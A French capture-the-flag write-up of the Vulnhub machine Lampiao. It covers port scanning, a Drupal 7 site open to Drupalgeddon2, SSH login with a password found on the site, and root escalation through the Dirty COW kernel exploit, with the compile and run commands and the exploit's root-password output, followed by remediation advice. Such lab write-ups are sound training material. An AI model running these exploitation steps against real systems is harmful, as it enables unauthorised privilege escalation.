





# Lampiao — Vulnhub

**Difficulté :** Moyen
**Catégorie :** Web (Drupal) / Privilege Escalation (Kernel Exploit)
**Date :** 2025

## Objectif

Compromettre la machine `192.168.56.16`, obtenir un accès utilisateur via
le service web exposé, puis escalader les privilèges jusqu'à root.

## Reconnaissance

Scan complet des ports et services :

```bash
sudo nmap -p- -sV 192.168.56.16
```

Résultats :

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | ssh | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 |
| 80/tcp | http | — |
| 1898/tcp | http | Apache httpd 2.4.29 (Ubuntu) |

## Énumération

Le service web sur le port **1898** héberge un site **Drupal 7**. En
parcourant le contenu publié sur le site, deux articles de blog rédigés par
les utilisateurs `tiago` et `eder` sont identifiés. Un des articles ou son
historique de révision expose un indice de mot de passe, menant au mot de
passe partagé `Virgulino` — référence au nom complet de Lampião (Virgulino
Ferreira da Silva), thème du nom de la machine.

**Vulnérabilité identifiée :** version de Drupal 7 vulnérable à
**Drupalgeddon2 (CVE-2018-7600)**, une faille d'exécution de code à distance
non authentifiée exploitable via le système de formulaires de Drupal.

## Exploitation

Utilisation des identifiants trouvés (`tiago` / `Virgulino` ou `eder` /
`Virgulino`) pour se connecter en SSH, ou exploitation directe de
Drupalgeddon2 pour obtenir un accès initial en tant que `tiago` :

```bash
ssh tiago@192.168.56.16
# password: Virgulino
```

## Élévation de privilèges

Une fois connecté en tant que `tiago`, transfert et compilation de
l'exploit **Dirty COW (CVE-2016-5195)**, une vulnérabilité du noyau Linux
permettant une élévation de privilèges locale via une condition de course
sur le sous-système de copy-on-write de la mémoire :

```bash
tar -xzvf CVE.tar.gz
cd CVE-2016-5195
```



```bash
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
```



```bash
./dcow
```



Résultat de l'exploit :
```
Running ...
Received su prompt (Password: )
Root password is:  dirtyCowFun
Enjoy! :-)
```

Passage root avec le mot de passe généré par l'exploit :

```bash
su
# Password: dirtyCowFun
```



Récupération du flag :

```bash
ls
cat flag.txt
```



Flag final : `9740616875908d91ddcaa8aea3af366`

## Résultat

- [x] Accès utilisateur obtenu (tiago)
- [x] Root flag obtenu

## Ce que j'ai appris

Cette machine illustre bien l'importance de la gestion des versions
logicielles : une version de Drupal non patchée a suffi à obtenir un accès
initial, et un noyau Linux non mis à jour a permis une élévation de
privilèges triviale via Dirty COW — une faille pourtant connue et corrigée
depuis 2016. Ça renforce l'importance du patch management systématique,
aussi bien côté applicatif (CMS, frameworks web) que côté OS/noyau.

## Remédiation

- Maintenir Drupal (et tout CMS) à jour ; appliquer immédiatement les
  correctifs de sécurité critiques comme Drupalgeddon2.
- Maintenir le noyau Linux à jour pour corriger les vulnérabilités connues
  telles que Dirty COW (CVE-2016-5195).
- Restreindre l'accès SSH par clé uniquement (désactivation de
  l'authentification par mot de passe).
- Isoler les services exposés via segmentation réseau / VLAN afin de
  réduire la surface d'attaque en cas de compromission.
- Filtrer les ports externes avec un pare-feu (UFW / iptables) et
  n'autoriser que le trafic strictement nécessaire (22, 80/443).
